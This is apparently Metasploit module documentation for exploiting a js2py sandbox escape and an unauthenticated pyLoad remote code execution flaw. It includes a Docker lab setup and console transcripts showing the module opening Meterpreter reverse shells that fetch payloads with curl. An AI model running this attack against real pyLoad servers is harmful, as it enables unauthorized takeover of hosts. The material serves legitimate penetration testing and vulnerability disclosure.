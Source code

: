## Vulnerable Application
CVE-2024-28397 is sandbox escape in js2py (<=0.74) which is a popular python package that can evaluate
javascript code inside a python interpreter. The vulnerability allows for an attacker to obtain a reference
to a python object in the js2py environment enabling them to escape the sandbox, bypass pyimport restrictions
and execute arbitrary commands on the host. At the time of writing no patch has been released, version 0.74
is the latest version of js2py which was released Nov 6, 2022.

CVE-2024-39205 is an remote code execution vulnerability in Pyload (<=0.5.0b3.dev85) which is an open-source
download manager designed to automate file downloads from various online sources. Pyload is vulnerable because
it exposes the vulnerable js2py functionality mentioned above on the /flash/addcrypted2 API endpoint.
This endpoint was designed to only accept connections from localhost but by manipulating the HOST header we
can bypass this restriction in order to access the API to achieve unauth RCE.

## Verification Steps

1. Start a vulnerable instance of pyLoad using docker
2. Start msfconsole
3. Run: `use exploit/linux/http/pyload_js2py_cve_2024_39205`
4. Set the `RHOST`, `LHOST` `PAYLOAD` and payload associated options
5. Run: `run`

### Docker Setup

```
docker run -d \
  --name=pyload-ng \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -p 8000:8000 \
  -p 9666:9666 \
  --restart unless-stopped \
  lscr.io/linuxserver/pyload-ng:version-0.5.0b3.dev85
```

## Scenarios
### ARCH_CMD PyLoad 0.5.0b3.dev85 (with js2py 0.74)
```
msf6 > use linux/http/pyload_js2py_cve_2024_39205
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > options

Module options (exploit/linux/http/pyload_js2py_cve_2024_39205):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9666             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      FTdcATmGGDpa     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.1:56080) at 2024-11-12 15:47:19 -0800

meterpreter > getruid
[-] Unknown command: getruid. Did you mean getuid? Run the help command for more details.
meterpreter > getuid
Server username: abc
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           :  (Linux 6.10.11-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ARCH_X64 PyLoad 0.5.0b3.dev85 (with js2py 0.74)
```
msf6 > use linux/http/pyload_js2py_cve_2024_39205
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > set target 1
target => 1
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/pyload_js2py_cve_2024_39205) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 172.16.199.1
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.1:56088) at 2024-11-12 15:48:42 -0800
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > getuid
Server username: abc
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           :  (Linux 6.10.11-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
